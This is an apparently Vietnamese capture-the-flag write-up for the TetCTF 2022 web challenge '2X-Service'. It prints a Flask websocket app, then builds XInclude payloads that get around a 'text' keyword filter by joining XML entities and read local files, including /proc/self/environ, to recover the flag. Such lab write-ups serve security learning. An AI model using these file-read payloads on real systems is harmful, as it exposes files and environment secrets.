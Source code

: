 ```yaml
---
title: TetCTF 2022 | Web Exploitation | 2X-Service
date: 2022-01-03-7:33:00 +0700
---
```


# 2X-Service

![2x-service](https://user-images.githubusercontent.com/82533607/147850702-16a63ccc-ba1d-4543-81ac-4aa052659960.png)

> Well, đây là bài duy nhất mà tôi giải được trong 2 ngày TetCTF, vẫn còn non quá mà :(((

## Source code & analysis

### Source code:

Đây là source code của `app.py`:

```python
import random
import os
from flask import Flask, render_template, render_template_string, url_for, redirect, request
from flask_socketio import SocketIO, emit, send
from xml.etree import ElementTree, ElementInclude

app = Flask(__name__)

app.config['SECRET_KEY'] = 'XXXXXXXSECREKTXXXXXXXX'
socketio = SocketIO(app)

@app.route('/')
def index():
	return redirect(url_for('dashboard'))


@app.route('/dashboard')
def dashboard():
	return render_template('./dashboard.html')

@app.route('/source')
def source():
	return render_template('source.html')

@app.route('/about')
def about():
	return render_template('about.html')


@socketio.on('message')
def handle_message(xpath, xml):
	if len(xpath) != 0 and len(xml) != 0 and "text" not in xml.lower():
		try:
			res = ''
			root = ElementTree.fromstring(xml.strip())
			ElementInclude.include(root)
			for elem in root.findall(xpath):
				if elem.text != "":
					res += elem.text + ", "
			emit('result', res[:-2])
		except Exception as e:
			emit('result', 'Nani?')
	else:
		emit('result', 'Nani?')


@socketio.on('my event')
def handle_my_custom_event(json):
	print('received json: ' + str(json))

if __name__ == '__main__':
	socketio.run(app, host='0.0.0.0', port=8003)
```

### Analysis

Ở bài này sử dụng websocket thông qua `flask-socketio`, nhìn qua source code của `/dardboard` ta thấy có `jquery` và `socketio` được import sẵn, nhưng chưa khởi tạo `socket`:

```html
<link rel="stylesheet" href="static/css/tsu.css">
<script src="static/js/jquery.min.js"></script>
<script src="static/js/socket.io.js"></script>
<script src="static/js/tsu.js"></script>


<meta name="viewport" content="width=device-width, initial-scale=1">
</head>
<body>

  <div class="header">
    <a href="#default" class="logo">2X-Service</a>
    <div class="header-right">
      <a class="active" href="/">Home</a>
      <a href="/source">Source</a>
      <a href="/about">About</a>
    </div>
  </div>

<body>

<br><br>
<center>
	<div class="form" >
	    <label>XPATH</label><br>
	    <input type="text" id="xpath" placeholder="Ex: attribute"><br>

	    <label>XML</label>
	    <textarea type="text" id="xml" rows="25" placeholder="Ex:&#10;<person>&#10;<name>tsu</name>&#10;<attribute>deptrai</attribute>&#10;</person>" ></textarea>
	  
	    <input type="submit" id="process" value="Process">
	</div>
</center>
```

Vì vậy, để gửi được request từ client đến socket tại server, ta cần thiết lập socket, sau khi đọc qua doc của `flask-socket`, mình đã tạo ra đoạn code `jquery` như sau:

```js
// Define the socket
socket = io()
// Connect to server's socket
socket.connect('http://207.148.119.136:8003')
// Test connection:
socket.on('connect', function() {
    socket.send('hello?', 'hi')
    console.log(socket.connected)
})
// Listen to response, then log to console
socket.on('result', function (data) {
    console.log(data);
});
// Submit form's content to server's socket
$('.form').submit(function(){
    socket.send($('#xpath').val(), $('#xml').val())
})
```

Test thử xem sao:

![socket_connected](https://user-images.githubusercontent.com/82533607/147850835-c6220de1-ba84-482b-b38f-da04f3c15ecc.png)

Vậy là đã xong phần socket, bây giờ cần phân tích source code một chút, cụ thể là phần `message`:

```python
@socketio.on('message')
def handle_message(xpath, xml):
	if len(xpath) != 0 and len(xml) != 0 and "text" not in xml.lower():
		try:
			res = ''
			root = ElementTree.fromstring(xml.strip())
			ElementInclude.include(root)
			for elem in root.findall(xpath):
				if elem.text != "":
					res += elem.text + ", "
			emit('result', res[:-2])
		except Exception as e:
			emit('result', 'Nani?')
	else:
		emit('result', 'Nani?')
```

## Exploit

Đọc qua thì sẽ thấy phần này khá giống bài [X-Service](https://dauhoangtai.github.io/ctf/2021/11/13/WRITEUP-SVATTT-FINAL-2021-WEB.html#challenge-x-service) của vòng chung kết SVATTT 2021.

Ta có thể sử dụng payload sau:

```xml
<?xml version='1.0'?>
<document xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="path_of_the_file" parse="text"/>
</document>
```

Nhưng có một vấn đề là, `text` bị filter, sau khi đọc qua doc của [xi:include](https://www.w3.org/TR/xinclude-11) thì mình nhận ra rằng, chẳng có `parser` nào có thể giải quyết vấn đề này, vì vậy, chỉ còn cách làm thế nào để `text` xuất hiện mà không bị filter.

Thực ra mọi chuyện khá đơn giản, chúng ta có thể dùng phương pháp `concat` như sau:

- Đầu tiên, define 2 biến `te` và `xt` thông qua `ENTITY`

```xml
<?xml version='1.0'?>
<!DOCTYPE resources [
  <!ENTITY te "te">
  <!ENTITY xt "xt">
]>
```

- Tiếp theo, sử dụng 2 biến đó:

```xml
<document xmlns:xi="http://www.w3.org/2001/XInclude">
<p>
  <xi:include href="flag.txt" parse="&te;&xt;"/>
</p>
</document>
```

> &te;&xt; <=> "te" + "xt" = "text"

Và ta có payload hoàn chỉnh:

```xml
<?xml version='1.0'?>
<!DOCTYPE resources [
  <!ENTITY te "te">
  <!ENTITY xt "xt">
]>

<document xmlns:xi="http://www.w3.org/2001/XInclude">
<p>
  <xi:include href="flag.txt" parse="&te;&xt;"/>
</p>
</document>
```

Sử dụng `xpath = *`, đầu tiên, thử trên local xem sao?

![test](https://user-images.githubusercontent.com/82533607/147851083-50c4ca78-6545-44eb-a839-51b320ac056b.png)

OK, vậy là payload hoạt động tốt, vậy thử trên server xem sao?

![test_server](https://user-images.githubusercontent.com/82533607/147851133-1ca3f3c1-3383-49ff-9735-fa62e78fe437.png)

Oh, vậy là file `flag.txt` có thể không tồn tại, vậy là nó nằm ở đâu?

Sau một hồi "fuzzing bằng cơm" thì tôi vô tình tìm thấy được flag tại `/proc/self/environ`:

```xml
<?xml version='1.0'?>
<!DOCTYPE resources [
  <!ENTITY te "te">
  <!ENTITY xt "xt">
]>

<document xmlns:xi="http://www.w3.org/2001/XInclude">
<p>
  <xi:include href="/proc/self/environ" parse="&te;&xt;"/>
</p>
</document>
```

![flag](https://user-images.githubusercontent.com/82533607/147851230-9c48d2de-6d3e-44f0-a123-6e741fcbc1bd.png)

Flag: `FLAG=TetCTF{Just_Warm_y0u_uP_:P__}`

> Từ sáng đến tối chỉ để giải được 1 bài web duy nhất 😞
